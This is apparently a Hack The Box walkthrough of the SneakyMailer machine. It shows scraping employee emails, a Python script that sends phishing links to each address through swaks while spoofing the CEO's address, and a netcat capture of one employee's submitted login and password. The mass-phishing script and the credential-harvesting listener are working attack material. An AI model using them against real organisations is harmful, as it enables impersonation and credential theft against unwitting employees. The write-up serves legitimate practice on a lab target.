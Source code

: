 Let's check port 80 first. There appears to be a PyPI server. We land on an Employee Dashboard, automatically logged in. Following the Team link, I can grab a list of all the employees and their emails.

Using https://email-checker.net/email-extractor, we can grab just the emails and save them into an `email_list` file.

```
airisatou@sneakymailer.htb
angelicaramos@sneakymailer.htb
ashtoncox@sneakymailer.htb
bradleygreer@sneakymailer.htb
brendenwagner@sneakymailer.htb
briellewilliamson@sneakymailer.htb
...
```

Since port 25 is open for SMTP, let's try to get a response from someone. `swaks` comes with Kali, and we can use it to phish all the employees on our list into opening a link that will trigger a reverse shell. The employee list also tells us that Angelica Ramos is the CEO, so let's pretend to be her for hopefully better results.

Let's change the last line in `/etc/hosts` to include sneakymailer.htb instead of sneakycorp.htb, so this mail can be sent.

```py3
#!/usr/bin/python3
import os, sys, signal

if len(sys.argv) != 2:
	print("usage: python go_phish.py <email_list>")
	exit()

filename = sys.argv[1]
spoof = 'angelicaramos@sneakymailer.htb'
msg = '"Confirm this data please: http://10.10.14.66:1234"'


with open(filename) as f:
	emails = [line.rstrip() for line in f]

try:
	for email in emails:
		print("Emailing: ", email)
		command = 'swaks --to ' + email + ' --from ' + spoof + ' --body ' + msg + ' > /dev/null'
		os.system(command)
except KeyboardInterrupt:
	print("Bye")
	sys.exit()
```

Let's open up a listener and run the script.
```
root@kali:~/Security/HackTheBox/SneakyMailer# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.66] from (UNKNOWN) [10.10.10.197] 59352
POST / HTTP/1.1
Host: 10.10.14.66:1234
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```